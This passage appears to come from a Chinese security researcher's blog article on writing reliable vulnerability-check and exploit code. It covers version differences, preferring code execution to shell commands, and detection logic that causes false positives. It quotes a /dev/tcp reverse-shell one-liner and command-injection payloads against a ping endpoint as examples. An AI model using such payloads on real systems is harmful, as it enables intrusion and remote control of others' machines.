 稳定利用里有两个问题需要额外注意：

一是编写的代码是否考虑到了存在漏洞的应用的不同版本之间的差异。比如 API 接口变化、路径变化等，可能会导致相当一部分的漏洞利用不成功；

二是`执行代码`优于`执行命令`。比如现在常见的一个示例的就是利用`代码执行`漏洞进行反弹 shell 的利用，演示用的多是利用执行类似 `/bin/bash -i >& /dev/tcp/{ip}/{port} 0>&1` 的命令来反弹 shell。

这里面有个`降级利用`的概念，即`代码执行` 却常被当做 `命令执行` 来使用，但是 `代码执行` 一般比`命令执行`可操作性更大，更稳定。

当只利用漏洞进行`执行命令`时，这当然没有什么问题，但是当用执行命令来反弹 shell 时，就会出现比较大的问题。比如，只适合 Linux 类系统，而且有些 docker、busybox 之类的精简环境可能没有 `/bin/bash`，或者不支持命令行下的反弹 shell，这些都会让漏洞利用不成功。

这种情况下的正确做法应该是优先执行一段代码，而不是`降级`之后的执行命令来完成复杂的操作。

### 3.最简利用优先

在能达到相同利用效果的情况下，选择最简单的实现路径。

比如最近的写的一个 [flink-unauth-rce](https://github.com/LandGrey/flink-unauth-rce) 漏洞利用，最优雅的方式是根据 flink api 来实现执行命令回显这个功能，但是势必要花点时间去学习和构造代码，不如直接利用程序报错回显，在报错结果中提取出执行命令的结果，省时省力效果良好。

## 五：须避免的错误

#### 1\. 检测条件不充足

比如，通过 GET 请求路径

```plain
/hard-to-guest-path/there/is/vulnerable
```

然后判断漏洞存在的核心逻辑是状态码 200，并且响应中存在 `admin` 关键词。

虽然请求路径比较特殊，但是考虑到有些网站总是返回 200 状态码，并且`admin`作为关键词过于普通，所以容易产生误报。

#### 2\. 检测关键词放置在发包内容中

比如检测一个可以回显的 GET 型命令执行漏洞，构造了如下的 payload

```plain
/api/ping?host=127.1|echo+79c363c6044c4c58
```

然后判断漏洞存在的核心逻辑是关键词 `79c363c6044c4c58` 出现在返回状态码是 200 的目标 response 中。

这类将判断漏洞存在的关键词放置在 GET 请求的 URL 中，**有些网站在请求不存在的路径时，也会返回 200 状态码，而且会将请求的 URL 全部返回到 response 中**，这样就产生了误报。

当然，不止 GET 请求，POST 等请求类型的漏洞验证也会存在此类问题。比如 POST 发包：

```plain
POST: /api/ping
DATA: host=127.1|echo+79c363c6044c4c58
```

**有些网站在接收到不能处理的请求时，会将 POST 的所有数据包括 HTTP Header 等回显到页面**，这时候判断关键词就会产生误报。

## 六：总结

规则是死的，人是活的。为了编写出符合要求的代码，在指定的要求、特殊情况下可以牺牲一些方面的准则特性来强化其他方面的准则特性。

比如，某些情况下付出 30% 的精力就可以编写出覆盖 90% 应用环境的代码，如果钻牛角尖，要付出 100% 的精力，编写出适合 99% 应用环境的代码，是无法享受漏洞研究到漏洞利用这整个过程的。

作为一名有追求的安全研究人员，不应该浅尝辄止于普通`漏洞验证`代码的编写，良好的`漏洞利用`代码的编写才能显示出漏洞的真正危害，体会到`漏洞利用`代码编写的精髓。
